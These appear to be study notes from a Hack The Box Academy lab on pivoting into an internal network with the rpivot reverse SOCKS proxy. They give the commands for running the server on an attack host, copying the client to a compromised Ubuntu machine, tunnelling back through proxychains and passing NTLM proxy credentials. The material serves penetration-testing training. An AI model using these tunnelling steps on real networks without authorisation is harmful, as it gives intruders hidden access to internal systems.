 # Web Server Pivoting with Rpivot

***

[Rpivot](https://github.com/klsecservices/rpivot) is a reverse SOCKS proxy tool written in Python for SOCKS tunneling. Rpivot binds a machine inside a corporate network to an external server and exposes the client's local port on the server-side. We will take the scenario below, where we have a web server on our internal network (`172.16.5.135`), and we want to access that using the rpivot proxy.

![](https://academy.hackthebox.com/storage/modules/158/77.png)

We can start our rpivot SOCKS proxy server using the below command to allow the client to connect on port 9999 and listen on port 9050 for proxy pivot connections.

<mark style="color:green;">**Cloning rpivot**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ git clone https://github.com/klsecservices/rpivot.git
```

<mark style="color:green;">**Installing Python2.7**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ sudo apt-get install python2.7
```

<mark style="color:green;">**Alternative Installation of Python2.7**</mark>

{% code fullWidth="true" %}
```shell-session
curl https://pyenv.run | bash
echo 'export PYENV_ROOT="$HOME/.pyenv"' >> ~/.bashrc
echo 'command -v pyenv >/dev/null || export PATH="$PYENV_ROOT/bin:$PATH"' >> ~/.bashrc
echo 'eval "$(pyenv init -)"' >> ~/.bashrc
source ~/.bashrc
pyenv install 2.7
pyenv shell 2.7
```
{% endcode %}

We can start our rpivot SOCKS proxy server to connect to our client on the compromised Ubuntu server using `server.py`.

<mark style="color:green;">**Running server.py from the Attack Host**</mark>

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```
{% endcode %}

Before running `client.py` we will need to transfer rpivot to the target. We can do this using this SCP command:

<mark style="color:green;">**Transfering rpivot to the Target**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```

<mark style="color:green;">**Running client.py from Pivot Target**</mark>

```shell-session
ubuntu@WEB01:~/rpivot$ python2.7 client.py --server-ip 10.10.15.124 --server-port 9999

Backconnecting to server 10.10.14.18 port 9999
```

<mark style="color:green;">**Confirming Connection is Established**</mark>

```shell-session
New connection from host 10.129.202.64, source port 35226
```

We will configure proxychains to pivot over our local server on 127.0.0.1:9050 on our attack host, which was initially started by the Python server.

Finally, we should be able to access the webserver on our server-side, which is hosted on the internal network of 172.16.5.0/23 at 172.16.5.135:80 using proxychains and Firefox.

<mark style="color:green;">**Browsing to the Target Webserver using Proxychains**</mark>

```shell-session
proxychains firefox-esr 172.16.5.135:80
```

![](https://academy.hackthebox.com/storage/modules/158/rpivot_proxychain.png)

{% hint style="info" %}
(Ton PC) Firefox → ProxyChains → 127.0.0.1:9050\
↓\
(Ton PC) Rpivot server.py (écoute sur 9999)\
↓\
(Tunnel établi par client.py)\
↓\
(Pivot) Rpivot client.py → Forward vers 172.16.5.135:80\
↓\
(Webserver interne) Réponse → Pivot → Rpivot → ProxyChains → Firefox
{% endhint %}

Similar to the pivot proxy above, there could be scenarios when we cannot directly pivot to an external server (attack host) on the cloud. Some organizations have [HTTP-proxy with NTLM authentication](https://docs.microsoft.com/en-us/openspecs/office_protocols/ms-grvhenc/b9e676e7-e787-4020-9840-7cfe7c76044a) configured with the Domain Controller. In such cases, we can provide an additional NTLM authentication option to rpivot to authenticate via the NTLM proxy by providing a username and password. In these cases, we could use rpivot's client.py in the following way:

<mark style="color:green;">**Connecting to a Web Server using HTTP-Proxy & NTLM Auth**</mark>

{% code overflow="wrap" fullWidth="true" %}
```shell-session
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```
{% endcode %}
